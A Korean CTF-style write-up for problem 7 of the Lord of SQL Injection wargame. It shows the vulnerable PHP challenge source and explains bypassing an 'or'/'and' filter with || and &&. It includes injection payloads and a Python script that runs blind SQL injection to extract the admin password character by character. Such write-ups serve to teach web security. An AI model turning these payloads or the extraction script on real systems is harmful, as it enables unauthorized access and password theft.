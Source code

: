 ```sql
pw='||id='admin'#
```

![image](https://user-images.githubusercontent.com/33647663/158067283-b2bc2b1c-8a75-487b-a992-01514211864a.png)

# 7번
## 문제
```sql
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```
## 풀이
blind sql injection을 이용하여 비밀번호를 얻어야 하는데, 이번에는 or , and 문자열이 필터링 되어 있습니다. 5,6번 문제와 동일하게 or,and 문자열로 필터링을 진행할 때는 동일한 연산자인 **||** 나 **&&**를 이용하면 됩니다. 

다음과 같이 blind sql injection을 수행해 줍니다.

```python
import requests
import string

cookies = {'PHPSESSID' :'nc39vn3k5l9dspn7mr23h9ugue'}
params = {'pw' : None}
url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"

answer = ''
for i in range(1,9):
    for j in string.printable:
        payload = "' || (id='admin' && ascii(substr(pw,{},1))={})#".format(i,ord(j))
        params['pw'] = payload
        response = requests.get(url,params=params,cookies=cookies)
        if("Hello admin" in response.text):
            print(payload)
            answer += j
            break
print(answer)
```
